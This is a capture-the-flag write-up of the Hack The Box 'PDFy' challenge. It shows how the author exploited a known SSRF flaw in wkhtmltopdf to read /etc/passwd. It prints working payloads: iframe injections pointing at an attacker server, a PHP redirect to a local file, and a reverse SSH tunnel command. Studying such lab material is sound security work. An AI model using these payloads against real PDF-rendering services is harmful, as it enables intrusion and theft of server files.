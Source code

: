 # TL;DR

1. Saw that input was reaching out to a website and tried to input "localhost", which produced an error
2. Saw the error came from using the wkhtmltopdf application and looked up vulns for it
3. Found a vuln and a POC for it and tried to get a PDF
4. Did not get a PDF and after a few attempts tried to use a command to get a temp domain name for the server to reach out to with a different payload
5. After giving the temp domain in the form I got a PDF back with the flag

# Detailed Writeup

When first getting to the site we this homepage:

![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/PDFy/homepage.png)

The site creates PDFs of sites that is given in the form. I tried to spin up a python server and tried to see if the site would reach back. But the site just hanged without any hits from the server

So I tried to put in "http://localhost" and when I did I got this error from the server:

![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/PDFy/error.png)

wkhtmltopdf, this is interesting as the server says a command failed when it tried to use this application. After this, I did a quick google search for any wkhtmltopdf vulnerabilities and I happen to land on page explaining that wkhtmltopdf has a known SSRF vulnerability. 

After this, I tried to look to see if there were any POC's and I happen to land on exploit-notes.hdks.org which had section dedicated to testing for this vulnerability in wkhtmltopdf:

![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/PDFy/explanation.png)

I followed these steps. Creating the malicious php file, starting the php server, and tried to inject the payload into the form:

**Example Payload**
```
<iframe src=http://<Your IP address here>:<Port of server>/test.php?x=/etc/passwd width=1000px height=1000px></iframe>
```

I tried to just injecting and it got an error message but did get a hit on my server:

![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/PDFy/payload.png)
![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/PDFy/server.png)

I thought maybe there was something wrong with the php file that I made as I was getting hits on my server. I tried changing the payload to a more simple version than the one in the website that did not take command arguments:

```
<?php
  header("Location: file:///etc/passwd");
?>
```

I got something different but not a PDF so I thought maybe I need to have a domain name since it google.com and github.com. So I used this command to set up a temporary domain: 

```
ssh -R 80:localhost:8000 nokey@localhost.run
```

I sent the payload again with new domain name copied from the above command and once again I did not get a PDF.

**Payload Used**
```
<iframe src=http://<Temp domain name>:8000/test2.php width=1000px height=1000px></iframe>
```

So I tried to just give just the full url of the temp domain name and I got a PDF with the flag: 

![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/PDFy/flag.png)

I come to later find out from other experiments that the site was blocking input and found that input that was given had to start with "http://" or "https://" or else input would of been blocked.
